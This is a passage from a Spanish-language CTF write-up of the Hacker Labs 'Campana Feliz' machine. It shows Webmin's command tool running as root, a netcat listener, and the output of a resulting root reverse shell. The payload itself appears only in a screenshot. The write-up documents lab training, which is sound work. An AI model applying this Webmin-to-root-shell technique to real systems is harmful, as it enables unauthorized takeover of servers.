 Explorando un poco el dashboard de Webmin, encontramos una sección dentro de 'Tools' donde podemos ejecutar comandos. En el cual observamos que tiene el usuario root por defecto.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/3.Campana%20Feliz/13.png?raw=true "webmin")

Si bien acá se termina el reto vamos a obtener una reverse shell para poder ejecutar comandos mas comodamente.

### 3.6 Reverse shell

Dejamos un puerto en escucha desde nuestro Kali.

```bash
root㉿v4lcyfer)-[/home/kali/Downloads]
└─# nc -lvnp 1234                 
listening on [any] 1234 ...
```

Ahora desde el Webmin 

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/3.Campana%20Feliz/14.png?raw=true "webmin")

Y desde el kali ya tenemos un shell del objetivo.

```bash
┌──(root㉿v4lcyfer)-[/home/kali/Downloads]
└─# nc -lvnp 1234                 
listening on [any] 1234 ...
connect to [192.168.1.50] from (UNKNOWN) [192.168.1.51] 37494
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
ls
root.txt
webmin-1.920
webmin-1.920.tar.gz

```
## 4. Observaciones y Recomendaciones

* Es importante no depender únicamente de una herramienta para obtener información. No está de más comparar los resultados con otras herramientas o incluso probar alguna nueva que nos proporcione un mayor alcance.

* Como buen especialista en seguridad ofensiva, nunca debemos olvidar que el secreto está en los detalles. Siempre debemos ser observadores, atentos y minuciosos con nuestras revisiones.

* Siempre el agradecimiento a [The Hacker Labs](https://thehackerslabs.com "the hacker labs") por el esfuerzo que hacen en la plataforma para que la comunidad pueda seguir aprendiendo en escenarios seguros.

Saludos!

**!Hack the life!**